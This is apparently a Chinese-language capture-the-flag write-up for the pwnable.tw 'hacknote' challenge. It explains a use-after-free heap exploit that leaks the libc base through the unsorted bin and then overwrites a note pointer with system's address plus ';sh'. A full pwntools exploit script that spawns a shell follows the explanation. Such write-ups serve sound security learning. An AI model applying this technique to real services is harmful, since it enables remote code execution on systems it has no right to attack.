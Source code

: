 ### 控制流劫持

刚才通过puts出got表地址泄露出libc基址的方式就是控制流劫持，所以这里我们采用unsortbin泄露基址之后来继续完成控制流劫持。

1. 继续unsortbin泄露的步骤
2. 释放掉前两个note
3. 申请8个字节note，p32(system_addr)+”;sh\x00”
4. show(0)

即可执行`system("&system;sh")`，前面代表了system函数地址，对应到字符串是无意义的，所以前面会执行失败，通过分号之后面的sh，因为是用的system函数，所以”/bin”这个目录是在环境变量中，所以直接执行sh就可以getshell了。

> 知识点：[linux连续执行多条命令](https://blog.csdn.net/freedom2028/article/details/7104131)

## exp

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF("./hacknote")
libc = ELF("./libc_32.so.6")
io = remote("chall.pwnable.tw",10102)

def add(size,content):
	io.recvuntil("choice :")
	io.sendline("1")
	io.recvuntil("size :")
	io.sendline(str(size))
	io.recvuntil("Content :")
	io.sendline(content)
def delete(num):
	io.recvuntil("choice :")
	io.sendline("2")
	io.recvuntil("Index :")
	io.sendline(str(num))
def show(num):
	io.recvuntil("choice :")
	io.sendline("3")
	io.recvuntil("Index :")
	io.sendline(str(num))

add(64,"")
add(32,"")
delete(0)
add(64,"")
show(2)

libc_base = u32(io.recv(8)[4:8]) - 0x1b07b0
system_addr = libc_base + libc.symbols['system']

delete(0)
delete(1)
add(8,p32(system_addr)+";sh\x00")
show(0)
io.interactive()
```
